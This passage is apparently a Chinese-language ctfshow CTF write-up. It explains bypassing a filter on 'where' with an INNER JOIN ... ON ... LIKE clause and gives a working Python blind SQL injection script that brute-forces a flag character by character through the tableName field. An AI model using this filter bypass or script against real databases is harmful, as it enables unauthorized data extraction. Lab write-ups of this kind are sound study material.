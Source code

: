 发现依旧获取了flag

然后这里我好像看wp的时候还发现了一种方式

这里是对where 过滤 提供了新的思路

### INNER join on

这道题目最难受的地方其实就是where被过滤了 我们只要绕过这个就可以了

这里我们可以通过INNER join on 来代替where

内连接

```less
ctfshow_user a inner join ctfshow_user b on b.pass like (0x...)
```

这里其实就是

 [SQL INNER JOIN 关键字 | 菜鸟教程](https://www.runoob.com/sql/sql-join-inner.html) 

这个讲的很清楚了 我们这里就是为了通过代替where 然后返回数值

简单来说就是两个表 当内连接后 将on后面条件符合的内容返回

所以这里我们修改也可以跑出来

这里需要注意修改

```cobol
$user_count = 22;
```

然后我们就可以获取到flag了

```cobol
import requests
import string
url = "http://0890718d-8277-4712-8927-3ac132f6bd31.challenge.ctf.show/select-waf.php"
 
paylaod = "ctfshow_user a inner join ctfshow_user b on b.pass like 0x63746673686f777b{0}"
 
uuid = string.ascii_lowercase+string.digits+"-{}"
def str_to_hex(str):
    return ''.join([hex(ord(c)).replace('0x','') for c in str])
flag =''
for i in range(1,100):
    for j in uuid:
        payload1 = paylaod.format(str_to_hex(flag+j+'%'))
        # print(payload1)
        data = {
            'tableName':payload1
        }
        re = requests.post(url=url,data=data)
        if "$user_count = 22;" in re.text:
            flag+=j
            print("ctfshow{"+flag)
            break
```
